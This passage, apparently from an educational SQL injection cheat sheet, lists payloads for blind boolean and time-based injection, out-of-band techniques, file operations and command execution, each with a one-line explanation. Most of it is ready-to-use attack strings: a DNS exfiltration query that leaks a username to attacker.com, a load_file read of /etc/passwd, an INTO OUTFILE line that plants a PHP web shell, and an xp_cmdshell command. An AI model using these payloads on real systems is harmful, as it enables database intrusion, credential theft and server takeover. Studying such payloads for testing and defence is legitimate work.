 ### 6. Blind SQL Injection

**Boolean-based:**
```
' AND 1=1 --    (Returns true - page loads normally)
' AND 1=2 --    (Returns false - page behaves differently)
```

**What they do**: Test if the application responds differently based on true/false conditions.

```
' AND (SELECT SUBSTRING(username,1,1) FROM users WHERE id=1)='a' --
```

**What it does**: Tests if the first character of a specific username is 'a'.

**Time-based:**
```
' AND IF(1=1,SLEEP(3),0) --   (MySQL)
' AND WAITFOR DELAY '0:0:3' --   (SQL Server)
' AND pg_sleep(3) --   (PostgreSQL)
' AND DBMS_UTILITY.GET_TIME - 3 > 0 --   (Oracle)
```

**What they do**: Cause the query to delay for 3 seconds if the condition is true.

## Advanced SQL Injection Techniques

### 7. Out-of-Band Techniques

**DNS exfiltration (SQL Server):**
```
'; DECLARE @q VARCHAR(1024); SET @q = CONCAT('SELECT * FROM users WHERE id=1; EXEC master..xp_dirtree "//',CAST((SELECT TOP 1 username FROM users) AS varchar(500)),'.attacker.com/a"'); EXEC(@q) --
```

**What it does**: Forces the database to make a DNS request to attacker.com with the username embedded in the subdomain.

### 8. File System Operations

**MySQL:**
```
' UNION SELECT NULL,load_file('/etc/passwd'),NULL --   (Read files)
' UNION SELECT NULL,NULL,"<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php' --   (Write files)
```

**What they do**: Read or write files on the database server (when permissions allow).

### 9. Command Execution

**SQL Server:**
```
'; EXEC xp_cmdshell 'whoami' --
```
